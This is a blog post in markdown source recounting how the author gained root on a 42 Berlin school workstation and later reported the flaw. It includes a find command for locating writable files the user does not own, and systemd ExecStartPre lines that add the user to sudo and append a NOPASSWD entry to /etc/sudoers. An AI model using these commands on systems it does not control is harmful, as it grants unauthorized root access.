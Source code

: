 ```yaml
---
layout: post
title: "priviledge escalation at 42 Berlin"
---
```

### _Climbing in Berlin_

<img src="{{ site.baseurl }}/images/pwned.webp" alt="Image" width="300" height="auto">

> I arrived to [school](https://42berlin.de/) on a sunday morning, and our Ubuntu installation was acting up. 
Firefox wouldn't start, vscode either. And so my morning started

  It was early morning, and already I had issues with our workstations. Naturally, we do not have admin privileges at school... _Unless we do_

_Hacking_ or trying to find vulnerabilities at 42 School's, its encouraged and rewarded, but my previous attempts had been fruitless when it was
_just for fun_. But this time, It was personal.
I was in a hurry to get my project done and lately the old storage system we had at that time was making the machines unresponsive at times.


> Can you hack my ex's facebook account?

We usually think of exploits as complex and niche, things only _real_ hackers know how to spot
by reading the memory of a running system in plain hexadecimal values.
But most times, a simple error on a single text file permission, is enough to spread mayhem and chaos to
a whole system.

<br>
_( In this case all the 42 Schools worldwide that used the same Ubuntu recipe)_


---

<br>

### _Getting there_


> Repeated my usual routine of checking recent kernel exploits POCs matching ours, GetTheF*ckOut Bins, suid bins...

Nothing, I just needed my bookmarts with all the links for the C project I was working on at the time, and vscode just because I still
didn't know how to use ```git mergetool``` inside neovim properly yet, and needed to solve some conflicts.

> I will find you


Suddenly I came accross a good list of find commands to search for files with specific permissions.


```bash
find / -type f ! -user $(whoami) -perm -u=w 2>/dev/null    
```
<br>

Find all the files that I'm not an owner of, and can be written into by my user.


One of the most interesting files as see it'a a .service file, so a systemd daemon. Huh! I'm familiar with services :-)
<br>

`/usr/lib/systemd/system/osqueryd.service`

When I glance into it, *Big* surprise, 

```bash
User=root
Group=root
```

<br>

[osquery service](https://www.osquery.io/) runs as ```root``` at boot and its writeable by my user...

So I proceed with the most logical step, adding my user to the sudoers file

<br>
```bash
[Service]
TimeoutStartSec=0
EnvironmentFile=/etc/default/osqueryd
ExecStartPre=/bin/sh -c "usermod -aG sudo ccattano"
ExecStartPre=/bin/sh -c "echo 'ccattano   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers"
```
_showing most relevant parts of the file only_

<br>
Then by the next boot, the system's sudoers file would have my user appended with the same permissions as root/bocal

```bash
root	 ALL=(ALL) ALL
bocal    ALL=(ALL) NOPASSWD: ALL
ccattano ALL=(ALL) NOPASSWD: ALL
```

<br>

---

<br>

### _Leaving as a gentleman_


> I'm in

<img src="{{ site.baseurl }}/images/imin.png" alt="Image" width="400" height="auto" />

<br>

I proceeded to fix Firefox, vscode and leaving a mark on the login background wallpaper. 

Contacted the school's staff to report the vulnerability.

> hearts for you, [stars](https://github.com/CarloCattano?tab=repositories&q=&type=public&language=&sort=) for me

<img src="{{ site.baseurl }}/images/washere.jpg" alt="Image" width="400" height="auto">

_It has been more than 1.5 years since I found it in June 2023. which has given the 42 network time enough to fix the vulnerability_


